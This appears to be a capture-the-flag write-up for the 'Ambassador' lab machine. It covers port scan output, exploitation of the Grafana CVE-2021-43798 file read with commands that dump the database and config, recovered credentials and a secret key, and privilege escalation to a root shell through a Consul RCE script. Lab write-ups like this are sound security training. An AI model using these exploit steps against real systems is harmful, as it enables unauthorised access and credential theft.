## RUSTSCAN
`PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 29dd8ed7171e8e3090873cc651007c75 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDLYy5+VCwR+2NKWpIRhSVGI1nJQ5YeihevJqIYbfopEW03vZ9SgacRzs4coGfDbcYa+KPePbz2n+2zXytEPfzBzFysLXgTaUlDFcDqEsWP9pJ5UYFNfXqHCOyDRklsetFOBcxkgC8/IcHDJdJQTEr51KLF75ZXaEIcjZ+XuQWsOrU5DJPrAlCmG12OMjsnP4OfI4RpIjELuLCyVSItoin255/99SSM3koBheX0im9/V8IOpEye9Fc2LigyGA+97wwNSZG2G/duS6lE8pYz1unL+Vg2ogGDN85TkkrS3XdfDLI87AyFBGYniG8+SMtLQOd6tCZeymGK2BQe1k9oWoB7/J6NJ0dylAPAVZ1sDAU7KCUPNAex8q6bh0KrO/5zVbpwMB+qEq6SY6crjtfpYnd7+2DLwiYgcSiQxZMnY3ZkJiIf6s5FkJYmcf/oX1xm/TlP9qoxRKYqLtEJvAHEk/mK+na1Esc8yuPItSRaQzpCgyIwiZCdQlTwWBCVFJZqrXc=
|   256 80a4c52e9ab1ecda276439a408973bef (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFgGRouCNEVCXufz6UDFKYkcd3Lmm6WoGKl840u6TuJ8+SKv77LDiJzsXlqcjdeHXA5O87Us7Npwydhw9NYXXYs=
|   256 f590ba7ded55cb7007f2bbc891931bf6 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINujB7zPDP2GyNBT4Dt4hGiheNd9HOUMN/5Spa21Kg0W
80/tcp   open  http    syn-ack ttl 63 Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: Hugo 0.94.2
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Ambassador Development Server
3000/tcp open  ppp?    syn-ack ttl 63
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.0 302 Found
|     Cache-Control: no-cache
|     Content-Type: text/html; charset=utf-8
|     Expires: -1
|     Location: /login
|     Pragma: no-cache
|     Set-Cookie: redirect_to=%2Fnice%2520ports%252C%2FTri%256Eity.txt%252ebak; Path=/; HttpOnly; SameSite=Lax
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: deny
|     X-Xss-Protection: 1; mode=block
|     Date: Wed, 11 Jan 2023 15:18:51 GMT
|     Content-Length: 29
|     href="/login">Found</a>.
|   GenericLines, Help, Kerberos, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie:
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest:
|     HTTP/1.0 302 Found
|     Cache-Control: no-cache
|     Content-Type: text/html; charset=utf-8
|     Expires: -1
|     Location: /login
|     Pragma: no-cache
|     Set-Cookie: redirect_to=%2F; Path=/; HttpOnly; SameSite=Lax
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: deny
|     X-Xss-Protection: 1; mode=block
|     Date: Wed, 11 Jan 2023 15:18:20 GMT
|     Content-Length: 29
|     href="/login">Found</a>.
|   HTTPOptions:
|     HTTP/1.0 302 Found
|     Cache-Control: no-cache
|     Expires: -1
|     Location: /login
|     Pragma: no-cache
|     Set-Cookie: redirect_to=%2F; Path=/; HttpOnly; SameSite=Lax
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: deny
|     X-Xss-Protection: 1; mode=block
|     Date: Wed, 11 Jan 2023 15:18:25 GMT
|_    Content-Length: 0
3306/tcp open  mysql   syn-ack ttl 63 MySQL 8.0.30-0ubuntu0.20.04.2
| mysql-info:
|   Protocol: 10
|   Version: 8.0.30-0ubuntu0.20.04.2
|   Thread ID: 10
|   Capabilities flags: 65535
|   Some Capabilities: IgnoreSigpipes, ODBCClient, Support41Auth, Speaks41ProtocolOld, IgnoreSpaceBeforeParenthesis, SupportsTransactions, ConnectWithDatabase, SwitchToSSLAfterHandshake, InteractiveClient, SupportsLoadDataLocal, LongPassword, SupportsCompression, Speaks41ProtocolNew, DontAllowDatabaseTableColumn, FoundRows, LongColumnFlag, SupportsMultipleStatments, SupportsMultipleResults, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: \x14\x110(6\x1C@ a:n\x06F.1}kSr6
|_  Auth Plugin Name: caching_sha2_password`
* * *
## HTTP
Loggin in we get some juicy informations:


We know that user is developer and Devops will give us password?!?
Knowing that port 3000 is there probably is there we need to dig...

So far no subdomains have been found with FFUF:


Dirsearch didn't got us that much:

* * *
## PORT 3000
Loggin into http://ambassador.htb:3000/ we get redirected to Grafana login, checking on web seems like port 3000 is used by default from grafana which we can assure is legit.
We can se from login that version is 8.2.0

This version is affected by a vulnerability that leads to an arbitrary file read,  and it have been coorected from versions > 8.3.0.
Guessing we can get this to work:https://www.exploit-db.com/exploits/50581
Edit: the previous exploit is not working, mevbermind i found another one..
https://github.com/taythebot/CVE-2021-43798

With this we can dump the grafana db  that usually is stored with sqlite3 from this path: /var/lib/grafana/grafana.db

We can dump the whole DB with:
`┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/CVE-2021-43798]
└─# go run exploit.go -target http://ambassador.htb:3000 -dump-database -output grafana.db`

And the config with:
`┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/CVE-2021-43798]
└─# go run exploit.go -target http://ambassador.htb:3000 -dump-config -output defaults.ini`

We can get DB user from Grafana config:
`# Either "mysql", "postgres" or "sqlite3", it's your choice
type = sqlite3
host = 127.0.0.1:3306
name = grafana
user = root`

We can get admin useer as well with a secret key:
`[security]
#disable creation of admin user on first start of grafana
disable_initial_admin_creation = false
#default admin user, created on startup
admin_user = admin
#default admin password, can be changed before first start of grafana, or in profile settings
admin_password = admin
#used for signing
secret_key = SW2YcwTIb9zpOOhoPsMm
`
Having our secret key we could decrypt user passwords from grafana DB knowig that all of them are encrypted using AES-256-CBC. Opening the grafana db with sqlitebrowser we can get Admin password:

Now we have everithing and we can decrypt password with this: https://github.com/jas502n/Grafana-CVE-2021-43798

Edit: seems like we can't decrypt the Admin password, so i got back and found something more interesting:

This must be the user to login into Mysql.

* * *
## SQL
Let try to login to Mysql with user and password found before:


We are in,now we can enumerate further, we find developer password into whackywidget table:


The password is not in clear text, seems more lite a base64, or eventually we need to decrypt it with secret found from grafana.
developer : YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg==
And i was right, was base64 encoded:


developer: anEnglishManInNewYork027468

* * *
## User.txt
Now with user and password in cleartext we can login via ssh and move forward and get our first flag:

* * *
## Root.txt
Moving forward we need to enumerate further how can we become root, from a first manual scan seems like we can't run anything as sudo and developer is the only user except root of course that seems plausible.
Surfing the root dir we see a strange directory called /development-machine-documentation which hosts all the config for the website we found on port 80 and uses hugo to build the website.


Wondering if this is our escalation path to root?!? Anyway will run linpeas first and then come back for a more meticolous analyze.
Some cve/sudo have been found but i don't think is the intended way:

Checkin from the process list this one seems interesting:

More interesting stuff:




Now checking further what we found from linpeas scan, we get more informations about gitconfig anmd it's pointing us to /opt:
`developer@ambassador:~$ cat .gitconfig
[user]
        name = Developer
        email = developer@ambassador.local
[safe]
        directory = /opt/my-app
developer@ambassador:~$`

Checking further git logs show interesting stuff:

from this last one we are pretty sure we will need that token to use consul and escalate to root. 

Now surfin web for possible exploit i stubled upon this module i MSF: https://www.exploit-db.com/exploits/46074
Which can't be used directly since port 8500 is not open to us and will involve a port forwarding first on 8500 to us. Then i found this script that can be used directly from the machine: https://github.com/GatoGamer1155/Hashicorp-Consul-RCE-via-API

So setup a listener in MSF and run the command:


And we get a shell as root where we can grab our root.txt:


